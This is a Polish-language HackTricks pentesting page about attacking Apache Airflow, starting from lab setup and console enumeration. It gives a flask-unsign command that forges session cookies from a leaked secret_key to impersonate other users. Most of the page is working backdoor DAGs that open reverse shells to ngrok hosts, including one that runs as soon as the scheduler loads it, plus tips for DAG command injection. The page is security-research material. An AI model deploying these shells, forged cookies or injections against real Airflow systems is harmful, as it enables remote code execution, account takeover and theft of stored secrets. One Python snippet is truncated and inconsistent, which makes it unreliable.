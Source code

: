 # Bezpieczeństwo Apache Airflow

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestracji i harmonogramowania potoków danych lub prac**. Termin "orkiestracja" w kontekście potoków danych oznacza proces organizowania, koordynowania i zarządzania złożonymi przepływami danych pochodzącymi z różnych źródeł. Głównym celem tych zorganizowanych potoków danych jest dostarczanie przetworzonych i użytecznych zestawów danych. Zestawy danych te są szeroko wykorzystywane przez wiele aplikacji, w tym narzędzia do inteligencji biznesowej, modele nauki danych i uczenia maszynowego, które są podstawą działania aplikacji big data.

W zasadzie, Apache Airflow pozwoli Ci **harmonogramować wykonanie kodu, gdy coś się** (zdarzenie, cron) **wydarzy**.

## Lokalne laboratorium

### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose** z [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), aby uruchomić kompletną środowisko Apache Airflow w kontenerze Docker. (Jeśli korzystasz z systemu MacOS, upewnij się, że przypisujesz co najmniej 6 GB pamięci RAM dla maszyny wirtualnej Docker).

### Minikube

Jednym prostym sposobem **uruchomienia Apache Airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Konfiguracja Airflow

Airflow może przechowywać **wrażliwe informacje** w swojej konfiguracji lub można znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC w Airflow

Przed rozpoczęciem ataku na Airflow, powinieneś zrozumieć, **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataki

### Wyliczanie konsoli internetowej

Jeśli masz **dostęp do konsoli internetowej**, możesz mieć możliwość uzyskania dostępu do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Niestandardowe wrażliwe informacje mogą być przechowywane tutaj)
* **Połączenia** (Niestandardowe wrażliwe informacje mogą być przechowywane tutaj)
* Uzyskaj do nich dostęp pod adresem `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Wrażliwe informacje, takie jak **`secret_key`** i hasła, mogą być przechowywane tutaj)
* Wyświetl listę **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

### Pobieranie wartości zmiennych

Zmienne mogą być przechowywane w Airflow, dzięki czemu **DAGi** mogą **uzyskać dostęp** do ich wartości. Jest to podobne do sekretów innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w interfejsie graficznym pod adresem `http://<airflow>/variable/list/`.\
Domyślnie Airflow wyświetli wartość zmiennej w interfejsie graficznym, jednak zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/) istnieje możliwość ustawienia **listy zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **interfejsie graficznym**.

![](<../../.gitbook/assets/image (79).png>)

Jednak te **wartości** nadal można **odzyskać** za pomocą **CLI** (musisz mieć dostęp do bazy danych), **arbitrary DAG** execution, **API** uzyskując dostęp do punktu końcowego zmiennych (API musi być aktywowane), a nawet **sam interfejs graficzny!**\
Aby uzyskać dostęp do tych wartości z interfejsu graficznego, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp, a następnie **kliknij Akcje -> Eksportuj**.\
Innym sposobem jest wykonanie **brute force** na **ukrytej wartości**, używając **filtru wyszukiwania**, aż ją odnajdziesz:

![](<../../.gitbook/assets/image (30).png>)

### Eskalacja uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, od roli **Użytkownik** i wyżej można **odczytać** konfigurację w sieci. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że ​​każdy użytkownik z tą ważną wartością może **utworzyć własne podpisane ciasteczko, aby podszywać się pod dowolne inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Tylnie drzwi DAG (RCE w Airflow worker)

Jeśli masz **uprawnienia do zapisu** w miejscu, gdzie **zapisywane są DAGi**, możesz po prostu **utworzyć jeden**, który wyśle ci **odwróconą powłokę**.\
Należy zauważyć, że ta odwrócona powłoka zostanie wykonana wewnątrz **kontenera pracownika Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Tylna furtka DAG (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w głównym kodzie**, w chwili pisania tego, zostanie **wykonane przez harmonogram** po kilku sekundach od umieszczenia go w folderze DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Tworzenie DAG

Jeśli uda ci się **skompromitować maszynę w klastrze DAG**, możesz tworzyć nowe **skrypty DAG** w folderze `dags/`, a zostaną one **skopiowane na pozostałe maszyny** w klastrze DAG.

### Wstrzykiwanie kodu DAG

Podczas wykonywania DAG z interfejsu graficznego możesz **przekazywać argumenty** do niego.\
Dlatego, jeśli DAG nie jest odpowiednio zakodowany, może być **podatny na wstrzykiwanie poleceń**.\
Tak właśnie stało się w przypadku tej podatności: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **rozpocząć poszukiwanie wstrzykiwania poleceń w DAG**, to to, że **parametry** są **odczytywane** za pomocą kodu **`dag_run.conf.get("param_name")`**.

Ponadto, ta sama podatność może wystąpić również w przypadku **zmiennych** (zauważ, że przy odpowiednich uprawnieniach możesz **kontrolować wartość zmiennych** w interfejsie graficznym). Zmienne są **odczytywane za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład wewnątrz polecenia bash, można przeprowadzić wstrzyknięcie poleceń.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
